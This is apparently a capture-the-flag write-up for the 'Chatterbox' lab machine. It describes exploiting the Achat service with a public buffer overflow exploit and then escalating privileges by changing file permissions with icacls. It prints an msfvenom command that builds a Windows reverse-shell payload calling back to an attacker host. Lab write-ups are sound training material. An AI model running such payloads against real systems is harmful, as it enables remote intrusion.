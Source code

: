 # Chatterbox

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (12) (6).png" alt=""><figcaption></figcaption></figure>

Port 9256 was a rather unusual port to be open.

### Achat

Researching a bit about this port led me to this post:

{% embed url="https://www.speedguide.net/port.php?port=9256" %}

So this port had a vulnerable software on it that is vulnerable to a Remote BOF exploit. We can use an exploit from exploit-db for this:

{% embed url="https://www.exploit-db.com/exploits/36025" %}

Again, we would need to replace the shellcode with a reverse shell one. We can do so like this:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```
{% endcode %}

Then, we can run the script and a shell would pop on our listener port.

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Directory Misconfig

When I ran WinPEASx64 on this machine, there was a lot of indication that we had AllAccess to the administrator's desktop.&#x20;

<figure><img src="../../../.gitbook/assets/image (42) (5).png" alt=""><figcaption></figcaption></figure>

However, we cannot read the root flag for some reason.

<figure><img src="../../../.gitbook/assets/image (7) (5).png" alt=""><figcaption></figcaption></figure>

We can check the permissions using `icacls`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

So we the user have Full Control over the Desktop (that's what (F) means), but the flag has been configured like so. To cirumvent this, we can grant ourselves the permission to read the files.

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can read the root flag.
